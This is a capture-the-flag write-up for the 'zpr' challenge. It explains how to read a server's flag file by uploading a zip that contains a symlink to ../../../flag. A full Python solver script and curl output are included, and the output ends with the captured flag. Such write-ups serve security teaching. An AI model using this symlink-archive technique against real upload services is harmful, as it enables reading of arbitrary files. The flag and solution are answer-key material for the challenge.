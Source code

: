 ## zpr

<details>
  <summary>Description</summary>
  
  > My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.... <br>
  > http://52.59.124.14:10015 + http://52.59.124.14:10016
  
  > [chall.zip](./chall.zip)
  
</details>

Create an txt file `coba.txt` that has text `../../../flag` indicate as the path. The soft link will refer to the original file, so changes made to the original file will also be visible in the symlink.

Then zip into file named `test.zip` that contains the file `coba.txt`. The --symlink argument in this command indicates that the soft link coba.txt will be included in the zip file. Send the test.zip file to the server using the POST method with the help of the curl library.

Make an HTTP GET request to the server `https://52.59.124.14:10016` to access the file `coba.txt` located in the directory. In the HTTP request header, the -v argument in the curl command indicates that the displayed output will include verbose information about the HTTP request process. Therefore, in addition to the contents of the coba.txt file, the output of the curl command will display information such as status code, header, and server response time.

Final script solver

```python3
import os
import requests

os.system('ln -sfn ../../../flag coba.txt')
os.system('zip test.zip coba.txt --symlink')

files = {'file': ('test.zip', open('test.zip', 'rb'), 'application/zip')}
response = requests.post('http://52.59.124.14:10015/', files=files)

print(response.text)

if "coba.txt" in response.text:
    filepath = response.text.strip()
    filepath_parts = filepath.split("/")
    directory = filepath_parts[-2]
    url = f"http://52.59.124.14:10016/{directory}/coba.txt"
    os.system(f"curl -v {url}")
```

Running

```bash
$ python3 solver.py
updating: coba.txt (stored 0%)
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/bd361131b238f364b10edcc61a356ff9.zip
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/coba.txt
Find your files at http://...:8088/eef19175f624ce410f0eb8aff0e87525/

*   Trying 52.59.124.14:10016...
* Connected to 52.59.124.14 (52.59.124.14) port 10016 (#0)
> GET /eef19175f624ce410f0eb8aff0e87525/coba.txt HTTP/1.1
> Host: 52.59.124.14:10016
> User-Agent: curl/7.81.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Server: SimpleHTTP/0.6 Python/3.11.2
< Date: Fri, 10 Mar 2023 12:57:01 GMT
< Content-type: text/plain
< Content-Length: 46
< Last-Modified: Thu, 09 Mar 2023 09:00:53 GMT
<
ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}
* Closing connection 0
```

<details>
  <summary>Flag</summary>
  
  > `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`
  
</details>
